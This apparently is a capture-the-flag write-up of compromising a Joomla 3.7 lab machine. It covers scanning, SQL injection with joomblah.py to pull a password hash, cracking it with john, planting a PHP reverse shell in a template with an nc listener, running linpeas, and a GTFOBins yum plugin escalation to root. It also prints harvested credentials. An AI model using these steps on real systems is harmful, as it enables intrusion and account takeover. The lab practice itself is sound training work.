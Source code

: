 # Enumeration
Using `nmap` to scan the target
```python
nmap -T4 -sV -vv -O -A -Pn  {IP} -oN nmap.txt
```
I outputed the scan result to `nmap.txt` file for later reviewing.
This is a brief of the result:
```note
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack ttl 63 MariaDB 10.3.23 or earlier (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
```
Open Ports:
- 22 (ssh)
- 80 (http)
- 3306 (mysql)
  Also, this is a quick look at the target via `port 80`

![Image](https://github.com/user-attachments/assets/c728a98c-4dfb-4eea-96a9-c389c58b32a7)

After reading the article, the answer for Task 1 is `spiderman` without the `-`
Then I noticed the login section on the right of the post, I tried using some SQLi queries to enter but gaining nothing.
Then I used `gobuster` to find all the hidden path of this site
```python
gobuster dir -u "http://{IP}" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.txt -t 1000 2>/dev/null
```
And obtaining some interesting information
```note
/images               (Status: 301) [Size: 235] [--> http://10.10.73.116/images/]
/index.php            (Status: 200) [Size: 9278]
/includes             (Status: 301) [Size: 237] [--> http://10.10.73.116/includes/]
/components           (Status: 301) [Size: 239] [--> http://10.10.73.116/components/]
/cache                (Status: 301) [Size: 234] [--> http://10.10.73.116/cache/]
/language             (Status: 301) [Size: 237] [--> http://10.10.73.116/language/]
/libraries            (Status: 301) [Size: 238] [--> http://10.10.73.116/libraries/]
/robots.txt           (Status: 200) [Size: 836]
/tmp                  (Status: 301) [Size: 232] [--> http://10.10.73.116/tmp/]
/layouts              (Status: 301) [Size: 236] [--> http://10.10.73.116/layouts/]
/administrator        (Status: 301) [Size: 242] [--> http://10.10.73.116/administrator/]
/htaccess.txt         (Status: 200) [Size: 3005]
/README.txt           (Status: 200) [Size: 4494]

```
I reckoned that I should check all the path that came with status `200` manually.
## Accessing  `/README.txt`
![Image](https://github.com/user-attachments/assets/eabd68bb-ac06-40d5-93ee-b4356df0de9e)
## Accessing   `/robots.txt`
![Image](https://github.com/user-attachments/assets/816cd781-e6c1-4f77-aaf7-83a0c4e73fd1)
## Accessing  `/htaccess.txt`
![Image](https://github.com/user-attachments/assets/e2820de9-5869-4c82-9f2e-88302f68d2b5)
Nothing special but I knew that the version of Joomla is 3.7.x for the target, then I assumed that the version is 3.7.0-9 about that range
Therefore, I tried `/administrator/` path which leaded me to this site
![Image](https://github.com/user-attachments/assets/d228287f-07ca-4189-a813-eb51ed7d2a9d)
Then I tried to find some credentials to login
and saw this hint:
![Image](https://github.com/user-attachments/assets/f2acf5a4-ac19-456d-9716-dd7c8a29b0d0)
So I Knew that ther http-generator : `joomla 3.7.x` then I just looked for some python vulnerabilities related to this generator and ended up with this
[joomblah.py](https://raw.githubusercontent.com/teranpeterson/Joomblah/refs/heads/master/joomblah.py) 
## Reference
[Joomblah](https://github.com/teranpeterson/Joomblah/tree/master)
So I had my SQLi python and carefully learned how to use it with `python3`
```python
python3 joomblah.py  "http://{ip}/index.php/component/users/\?view\=login\&Itemid\=101"
```
Obtaining the result 
```
Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
Extracting sessions from fb9j5_session
```
I had username :`jonah`, and hashed password :`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`
I acctually did not know what type of this hash is (I saved the hashed password into `password.txt` file) and just ended up coping and pasting to google for searching and found this post on [reddit](https://www.reddit.com/r/HowToHack/comments/m9w0at/why_isnt_john_cracking_this_bcrypt_hash/)
But I wanted to find it by myself then I kept searching, I found this tool called [Hash Type Identifier](https://hashes.com/en/tools/hash_identifier)
![Image](https://github.com/user-attachments/assets/5fd1c549-0149-43a1-9f06-d762a5d5ed48)
Then I could ensure that the hash type is `bcrypt`, moving next I used `john` do decrypt the hash
```python
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
and I found the password, by the way, I got the username too, therefore, I attempted to login.
![Image](https://github.com/user-attachments/assets/85c69d85-5e4c-4ca6-911b-010fed173ee8)
![Image](https://github.com/user-attachments/assets/c8290d57-500d-49ad-b537-b5ee8d8a9235)
![Image](https://github.com/user-attachments/assets/75d04eed-e4a1-47a7-83f1-b45c2dcd10db)
# Boom, Login Successfully~~!!! 
Then access to this path, replace `index.php` of `beez3` with the [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)
![Image](https://github.com/user-attachments/assets/f258c8e7-bc96-43fc-b34c-10e1eeecf88d)
Remeber to set up a listener ( my case is port 1234) first
```note
nc -lvnp 1234
```
Then accessing the template `beez3` index.php to trigger the reverse-shell
```note
http://{ip}/templates/beez3/index.php
```
```python
listening on [any] 1234 ...
connect to [10.23.99.113] from (UNKNOWN) [10.10.5.71] 45380
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:05:37 up 49 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```
I always knew that the `/tmp` directory always has the root privilege which I can exploit to use linpeas for enumerating
## Move to the directory containing linpeas.sh set up the python http server
```
python3 -m http.server 8000
```
```python
sh-4.2$ cd /tmp
cd /tmp
sh-4.2$ ls -la
ls -la
total 820
drwxrwxrwt   2 root   root       24 Jun  2 07:31 .
dr-xr-xr-x. 17 root   root      244 Dec 14  2019 ..
-rwsrw-rw-   1 apache apache 839046 May 18 08:50 linpeas.sh
```
Then I need to change mode for linpeas.sh into executable, and I was already in the root directory so I can change the action.
by entering this command:
```note
chmod u+x linpeas.sh
```
Following up with 
```
./linpeas.sh
```
I ended up with this line
```
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```
and also
```
/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';
```
# Hurray I got all essential credentials
I used `ssh` to connect to the target under `jjameson` and found the user flag


# Privilege Escalation
Note: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."
Therefore, I searched for yum on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)
```python
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cat /root/root.txt
```


